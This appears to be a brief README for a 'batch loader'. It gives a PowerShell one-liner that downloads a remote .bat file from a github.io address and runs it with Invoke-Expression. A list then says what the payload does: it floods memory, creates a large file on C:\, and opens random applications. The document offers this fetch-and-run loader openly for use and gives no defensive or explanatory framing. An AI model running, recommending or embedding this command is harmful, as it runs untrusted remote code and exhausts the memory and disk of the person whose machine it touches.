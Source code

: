 batch loader
----------------------------------
- b1 loader 
- ```powershell -Command "Invoke-Expression (Invoke-WebRequest -Uri 'https://luzisdev.github.io/b-1.bat').Content"```
-- flood memory
-- creat big file at C:\
-- open randoms application
----------------------------------
